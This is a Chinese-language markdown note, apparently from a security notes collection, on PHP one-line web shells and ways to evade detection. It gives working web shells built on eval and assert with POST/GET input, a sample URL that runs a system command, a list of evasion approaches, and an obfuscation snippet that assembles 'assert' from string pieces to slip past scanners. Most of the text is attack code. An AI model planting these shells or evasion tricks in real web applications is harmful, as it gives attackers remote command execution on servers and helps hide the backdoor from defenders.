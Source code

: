# PHP

## PHP一句话

```php
<?php eval(@$_POST['a']); ?>
```

```php
<?php assert(@$_POST['a']); ?>
```

eval() 是一个语言构造器而不是一个函数，不能被 可变函数 调用

assert() 可以被可变函数调用，例如诸多的回调函数，这样就方便了许多

```php
<?php
$func = $_GET["func"];
assert("$func()");
?>
# 这也是一个一句话
```

利用：

```http
http://127.0.0.1:8081/security/bypass/test01.php?func=system(%22whoami%22)
```

## assert函数

assert是一个断言函数，当assert进行判断时，如果为false，则会发出Warning的提醒，但是依然会继续向下执行。对于调试很好，尤其是可以使用回调函数的时候，如果对用户输入的数据过滤不严谨的话，assert的危害比eval还要大。

便需要结合不同编程语言要有不同的应对方式，我用php做实例，总的思路就是：**要刨除代码和函数的关系**

大体有以下几个思路：

- 字符串变换（拼接、编码、等等。。。）
- 函数特性
- 类特性
- 混合免杀
- 奇思妙想

## 字符串变换

单纯的字符串变化还是有可疑，我们还需要配合其他

```php
<?php

$a = substr_replace("xxser","asser",-3);
echo $a."<br>";  //xxasser
$aa = array('',$a);
$b = $aa[1].chr('116');
echo $b."<br>";  //xxassert
$fun=preg_replace("/xx/","",$b);
echo $fun."<br>";  //assert
$cc = substr_replace("",$fun,0);
echo $cc."<br>";  //assert

$cc($_GET['x']);
```
